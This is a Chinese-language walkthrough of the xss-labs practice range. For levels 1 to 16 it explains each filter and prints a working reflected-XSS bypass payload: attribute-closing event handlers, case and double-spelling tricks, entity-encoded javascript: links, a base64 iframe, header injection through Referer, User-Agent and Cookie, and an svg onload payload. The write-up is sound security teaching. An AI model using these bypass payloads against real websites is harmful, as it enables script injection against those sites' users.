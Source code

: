 



# 靶场地址

+ 靶场地址：[xss-labs](https://gitcode.com/mirrors/do0dl3/xss-labs/tree/master)
+ 首次从靶场地址下载源文件的文件夹到本地
+ 解压到phpstudy的www目录下，名字改为xss-labs
+ 打开浏览器直接进入 http://127.0.0.1/xss-labs/ 即可访问靶场



+ 靶场通关参考地址：[xss-labs靶场实战全通关](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc=%7B%22request%5Fid%22%3A%22170288814616800182767434%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)

![入口](./img/入口.png)



# level 1 

![level1_1](./img/level1_1.png)

首先确定<code>payload</code>的位置，发现如上图所示即为<code>payload</code>的位置



改写<code>payload</code>为：

~~~ javascript
<script>alert("123")</script>
~~~

![level1_2](./img/level1_2.png)

直接编写脚本注入执行即可成功



# level2

+ 首先确定<code>payload</code>的位置，如下图

![level2_1](./img/level2_1.png)



+ 编写<code>payload</code>为：

~~~ javascript
"> <script>alert(1)</script>
~~~

闭合<code>input</code>标签中<code>value</code>值然后再注入即可

![level2_2](./img/level2_2.png)



# level3

+ 首先确定<code>payload</code>的位置，如下，先输入<code>"</code>然后点搜索后发现双引号<code>"</code>被转义为<code>html</code>实体

![level3_1](./img/level3_1.png)



+ 查看源文件<code>level3.php</code>源文件，发现该位置有<code>htmlspecialchars</code>函数

![level3_2](./img/level3_2.png)



+ 查看<code>[php手册](https://www.php.net/manual/zh/function.htmlspecialchars)</code>，如下：

![level3_3](./img/level3_3.PNG)



+ 输入单引号<code>’</code>，发现单引号<code>'</code>不会被转义，用单引号<code>' </code>闭合<code>Input</code>函数

![level3_4](./img/level3_4.PNG)

![level3_5](./img/level3_5.PNG)



+ 输入<code>payload</code>为：<code>' onclick=javascript:alert() /></code>，然后点搜索按钮注入：

![level3_9](./img/level3_9.PNG)



+ 看页面源码发现页面已经被注入，后点击输入框发现注入成功

![level3_10](./img/level3_10.PNG)



# level4

+ 首先找到<code>payload</code>的点，如下图：

![level4_1](./img/level4_1.png)



+ 尝试输入<code>'</code>，发现无效

![level4_2](./img/level4_2.png)



+ 输入<code>"</code>，发现<code>value</code>属性闭合，可和<code>level3</code>一样构造函数<code>onclick</code>，<code>payload</code>为<code>" onclick=alert() "</code>

![level4_3](./img/level4_3.png)



+ 可发现函数已经构造好了，点击一下输入框即可触发函数

![level4_4](./img/level4_4.png)



#  level5

+ 首先查看源代码，发现输入<code>script</code>会被替换为<code>scr_ipt</code>，而<code>on</code>则被替换为<code>o_n</code>，同时将输入的字符转小写然后使用<code>htmlspecialchars</code>函数转换

![level5_1](./img/level5_1.png)



+ 确定<code>payload</code>的点

![level5_2](./img/level5_2.png)



+ 尝试输入<code>"</code>，发现可以将<code>value</code>属性闭合

![level5_3](./img/level5_3.png)

![level5_4](./img/level5_4.png)



+ <code>payload</code>尝试改为<code>"><script>alert()</script></code>,发现可成功注入，但最终注入失败，<code>script</code>标签被转化为<code>scr_ipt</code>

  

  ![level5_5](./img/level5_5.png)

![level5_6](./img/level5_6.png)



+ 由此,<code>on</code>会被转化为<code>o_n</code>，故此不用<code>onclick</code>或者<code>onfocus</code>等其他属性注入.尝试使用<code><a></code>标签，<code>payload</code>改为<code>"><a href="javascript:alert()"></code>，注入成功:

![level5_7](./img/level5_7.png)

![level5_8](./img/level5_8.png)



+ 发现用<code><a></code>标签注入成功，点一下该标签发现效果如下

![level5_9](./img/level5_9.png)



# level6

+ 首先查看代码，发现会将<code>on</code>转化为<code>o_n</code>，<code>script</code>转化为<code>scr_ipt</code>，<code>src</code>转化为<code>sr_c</code>，<code>data</code>转化为<code>da_ta</code>，<code>href</code>转化为<code>hr_ef</code>，同时也会使用<code>htmlspecialchars</code>函数

![level6_1](./img/level6_1.png)



+ 确定<code>payload</code>的点如下：

![level6_2](./img/level6_2.png)



+ 由之前代码审计可知，前几关使用的构造<code>onclick</code>属性及<code><a href></code>标签就不好用了，由此，可尝试大小写构造<code>payload</code>如            <code>    " /><Script>alert()</Script></code>

![level6_3](./img/level6_3.PNG)



+ 注入后，发现成功：

![level6_4](./img/level6_4.PNG)



# level7

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了

![level7_1](./img/level7_1.PNG)



+ 确定<code>payload</code>的地方

![level7_2](./img/level7_2.png)



+ 由上面的分析，可使用双拼写绕过，构造<code>payload</code>为<code>"/><sscriptcript>alert()</sscriptcript></code>

![level7_3](./img/level7_3.PNG)



+ 这关甚至还过滤掉了src和data，受不了了，百度找找看其他解法

​		src(source)是一个指向，可以大概理解跟href一样把，只是执行的内容不太一样
​		data一般在<iframe>标签中用来配合date:text/html（貌似解码的含义）



第二关没啥过滤只有一个html实体转义，我们回到第二关测试一下 

![level7_4](./img/level7_4.PNG)

先试一下<code>src</code>，这里配合<code>onerror</code>属性，插入一个<code><img></code>标签，闭合掉双引号跟括号，构造<code>payload</code>

<code>"> <img src='666' onerror=alert()> <"</code>

>  onerror属性是指当图片加载不出来的时候触发js函数，以上面的代码为例，这里因为src指向的是值666，而不是图片的地址和base64编码啥的，就会导致触发alert函数

![level7_5](./img/level7_5.PNG)



当然img标签还有其他姿势

①当鼠标移出图片的时候执行的属性<code>onmouseout </code>

<code>"> <img src=666 onmouseout="alert()"> <"</code>

②当鼠标移动到图片的时候执行的属性<code>onmouseover</code>

<code>"> <img src=1 onmouseover="alert()"> <"</code>



再来看看<code>data</code>的，这里利用<code>iframe</code>标签，插入一个标签<code>data:text/html;base64</code>, 将后面的内容进行<code>base64</code>解码，<code>PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+</code>进行base64解码后是<code><script>alert()</script></code>

<code>"> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+"> <"</code>


虽然有弹窗，但是没有过关 

![level7_6](./img/level7_6.png)


# level8

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了，还会将<code>"</code>双引号转化为其他字符串

![level8_1](./img/level8_1.PNG)



+ 确定<code>payload</code>的位置以及会执行的动作

![level8_2](./img/level8_2.png)



+ 由此，可利用<code>href</code>隐藏属性自动触发<code>Unicode</code>解码插入一段<code>javascript</code>伪代码<code>javascipt:alert()</code>，可利用[在线Unicode编码解码工具](https://www.matools.com/code-convert-unicode)进行<code>Unicode</code>编码，将<code>javascript:alert()</code>转化为

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
~~~



![level8_3](./img/level8_3.png)



+ 注入后点击友情链接即可触发<code>xss</code>注入

![level8_4](./img/level8_4.png)



# level9

+ 首先代码审计，查看源代码

![level9_1](./img/level9_1.PNG)



+ 根据代码审计，false等于false时(传入值没有http://)会执行if，为防止false===false需要向传入的值里加http://并用注释符注释掉否则执行不了无法弹窗，让函数strpos返回一个数字，构造payload

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;/* http:// */
~~~



+ 注入后点击对应的<b>友情链接</b>即可弹出相应的结果

![level9_2](./img/level9_2.png)



+ 本关小结：插入指定内容（本关是http://）绕过检测，再将指定内容用注释符注释掉即可



# level10

+ 首先测一下关键字

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level10_1](./img/level10_1.PNG)

![level10_2](./img/level10_2.PNG)

注入后发现所有的注入都被实体化了



+ 代码审计，查看一下项目源代码

![level10_3](./img/level10_3.PNG)

好吧，原来还有其他隐藏的传参方法，学到了，这里是get传参t_sort，并过滤掉了<>号，不能闭合插入标签，但是我们还能用onfocus事件，因为这里输入框被隐藏了，需要添加type="text"，构造payload



+ 注入下面的<code>payload</code>：

~~~ shell
?t_sort=" onclick=javascript:alert() type="text
~~~

![level10_4](./img/level10_4.PNG)



+ 注入成功，点击一下输入框会触发脚本执行

![level10_5](./img/level10_5.PNG)



+ **本关小结**：根据源码猜解传参的参数名，隐藏的input标签可以插入type="text"显示



# level11

![level11_1](./img/level11_1.png)

<code><input></code>标签有四个值，都做了隐藏处理，不难看出第四个名为t_ref的<code><input></code>标签是`http`头`referer`的参数（就是由啥地址转跳到这里的，`http`头的`referer`会记录）。先简单测试验证下前面三个标签名，GET与POST传参都试一下



GET传参：

~~~ shell
?t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_2](./img/level11_2.png)

可看到，没有赋值成功



试试POST传参：

~~~ shell
t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>
~~~

![level11_3](./img/level11_3.png)

POST传参也没用(由于没有办法POST传参所以这里没有测试)



考虑<code>referer</code>头，使用<code>burpsuite</code>抓包下然后添加<code>http</code>头的<code>referer</code>

~~~ shell
Referer: " sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_4](./img/level11_4.png)



可看到成功注入

![level11_5](./img/level11_5.png)



查看源码

![level11_6](./img/level11_6.png)

对比发现，把大于小于号><给删掉了，但是我们还能用onfocus，构造一个http头

~~~ shell
Referer: " onclick=javascript:alert() type="text
~~~

![level11_7](./img/level11_7.png)



发现注入成功

![level11_8](./img/level11_8.png)



点击下文本框，弹出弹框

![level11_9](./img/level11_9.png)



再看下源码

![level11_10](./img/level11_10.png)

跟猜想一样，这题还有GET传参，但还有<code>htmlspecialchars()</code>函数在无法闭合双引号 



 **本关小结**：考虑一下http头传值，本关是referer，但接下来也有可能是其他头，如Cookie等



# level12

![level12_1](./img/level12_1.png)

第四个参数肯定是User-Agent头，用burpsuite抓包一下，将User-Agent头修改为测试代码

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level12_3](./img/level12_3.png)

![level12_4](./img/level12_4.png)



可发现成功注入

![level12_5](./img/level12_5.png)



构造想要构造的<code>User-Agent</code>头：

~~~ shell
User-Agent:" onclick=javascript:alert() type="text
~~~

![level12_6](./img/level12_6.png)



发现注入成功：

![level12_7](./img/level12_7.png)



点一下方框，触发函数：

![level12_8](./img/level12_8.png)



# level13

![level13_1](./img/level13_1.png)

同样，第四个参数是<code>t_cook</code>，猜想应该是<code>cookie</code>



尝试用<code>burpsuite</code>拦截下

![level13_2](./img/level13_2.png)



可看到确实<code>t_user</code>参数的值是<code>Cookie</code>的值

![level13_3](./img/level13_3.png)



用<code>burpsuite</code>拦截然后修改下<code>Cookie</code>的值注入：

~~~ shell
" onclick=alert() type="text 
~~~

![level13_4](./img/level13_4.png)



回到页面发现注入成功

![level13_5](./img/level13_5.png)



点击方框发现成功反弹

![level13_6](./img/level13_6.png)



**本关小结**：还是http头传参



# level14 

这题有问题，直接跳到下一关

# level15

+ 首先<code>F12</code>查看网站源代码，发现有个奇怪的<code>ngInclude</code>指令

![level15_1](./img/level15_1.png)



+ 了解下<code>ngInclude</code>指令

![level15_2](./img/level15_2.png)



+ 既然可以引用<code>html</code>文件，直接引用第一关的<code>html</code>文件网址路径尝试

~~~ shell
http://192.168.31.127:8080/xss-labs/level1.php?name=hzj
~~~

![level15_3](./img/level15_3.png)



+ 注入以下网址

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src=http://192.168.31.127:8080/xss-labs/level1.php?name=hzj
~~~

![level15_4](./img/level15_4.png)

发现相应的地方没有问题



+ 注入以下指令

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src=http://192.168.31.127:8080/xss-labs/level1.php?name=<script>alert()</script>
~~~

![level15_5](./img/level15_5.png)

发现没用



+ 在引用的网址外层加上单引号，完整<code>URL</code>如下：

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src='http://192.168.31.127:8080/xss-labs/level1.php?name=<script>alert()</script>'
~~~

![level15_6](./img/level15_6.png)

看到指令被正确使用，网址成功包含，但没有成功触发弹窗，这里可以包含那些标签如<code><a></code>、<code><input></code>、<code><img></code>、<code><p></code>标签等等，这些标签需要手动点击弹窗



+ 注入以下指令

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src='http://192.168.31.127:8080/xss-labs/level1.php?name=<a href=javascript:alert()>href</a>'
~~~

![level15_8](./img/level15_8.png)

注入成功



+ 点击对应的链接，成功弹窗

![level15_9](./img/level15_9.png)



# level16



![level16_1](./img/level16_1.png)

<code>test</code>插入到了<code>center</code>标签中，所以这里就不用闭合了。



+ 老规矩，先测试一波关键字

~~~ shell
?keyword=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()> &#106; 
~~~

![level16_2](./img/level16_2.png)

对比发现，这里先是将字母小写化了，再把<code>script</code>替换成空格，最后将空格给实体化，想尝试一下<code>p</code>标签<code><p οnmοusedοwn=alert()>abc</p></code>，谁知道也将<code>/</code>给替换成了空格，



+ 看下后端源码，果然如此

![level16_3](./img/level16_3.png)



+ 空格可以用回车来代替绕过，回车的url编码是<code>%0a</code>，再配合上不用<code>/</code>的<code><img>、<details>、<svg></code>等标签。随便选个标签，将空格替换成回车的url编码，构造<code>payload</code>

~~~ shell
?keyword=<svg%0Aonload=alert(1)>
~~~

![level16_4](./img/level16_4.png)



# level17



[xss-labs靶场实战全通关详细过程（xss靶场详解）-CSDN博客](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc={"request_id"%3A"170288814616800182767434"%2C"scm"%3A"20140713.130102334.."}&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)
